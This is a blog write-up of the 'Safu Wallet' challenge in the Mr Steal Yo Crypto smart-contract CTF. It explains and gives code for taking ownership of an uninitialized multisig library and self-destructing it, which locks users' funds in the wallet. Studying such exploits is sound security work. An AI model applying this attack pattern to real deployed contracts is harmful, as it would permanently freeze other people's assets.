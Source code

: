 ```yaml
---
title: "Mr Steal Yo Crypto — Safu Wallet"
date: 2023-07-22
draft: false
description: "CTF - 5"
tags: ["CTF"]
series: ["CTF"]
series_order: 5
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```

This is the #5 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real-world exploits.

> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Safu Wallet

After Safu Labs’ SafuVault product was exploited, they decided to start fresh and venture into the secure web3 tooling space — what could go wrong.

They’ve launched their first product: a multi-sig wallet, and have already onboarded a user.

Your task is to grief that user by trapping their funds inside the wallet.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/safu-wallet)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/5-safu-wallet.sol)

### Review of the contracts

#### ISafuWalletLibrary.sol

I have nothing to say about an interface.

#### SafuWallet.sol

The first thing that warned me is that `_safuWalletLibrary` is a constant address. Normally, a library is directly imported into the contract.

#### SafuWalletLibrary.sol

Now we know `_safuWalletLibrary` is another deployed contract. Maybe we will see something interesting inside this contract:

- `kill()`: we can destruct the contract if we can bypass the modifier `onlymanyowners()`.
- `onlymanyowners()`: The modifier calls `confirmAndCheck()`, so we will look into it.
- `confirmAndCheck()`: There are a bunch of conditions, if we are able to set `m_ownerIndex[uint(msg.sender)] = 1` then we can destruct the library.
- We can set `m_ownerIndex[uint(msg.sender)] = 1` inside `initMultiowned()`. This function is called inside `initWallet()`, but this one is only callable one time due to the modifier `only_uninitialized`.

I already know how to bypass the modifier `only_uninitialized` so let’s go to the next part.

### Exploit the vulnerability

This challenge was very easy. The library is a deployed contract, so if we are able to destruct the contract, we pass the challenge.
And wow! What a surprise, when we go to the test file it seems that the function `initWallet()` is never called. It means that I’m able to call `initWallet` (we pass the modifier `only_uninitialized`). After that call, we have now `m_ownerIndex[uint(msg.sender)] = 1`. Now we can destruct the contract.

```kotlin
//We are in a situation where safuWalletLibrary is deployed but not initialized and so all the variable are at 0
// After the deployment of safuWallet, we might think that the variable inside safuWalletLibrary are updated
// However, during a delegate call, the caller storage is updated not the callee
// (In this challenge, we have a storage collision but not useful)
// And so the variables inside safuWalletLibrary are still at 0
// We are able to kill safuWalletLibrary -&gt;safuWallet is unable to do a delegate call for this address

//Call initWallet() in order to get the ownership
addresses = new address[](1);
addresses[0] = attacker;
data = abi.encodeWithSignature("initWallet(address[],uint256,uint256)", addresses, 1, type(uint).max);
address(safuWalletLibrary).call(data);

//call kill() in order to destruct the contract
data = abi.encodeWithSignature("kill(address)", address(attacker));
address(safuWalletLibrary).call(data);
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/5-safu-wallet.sol).

### Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.
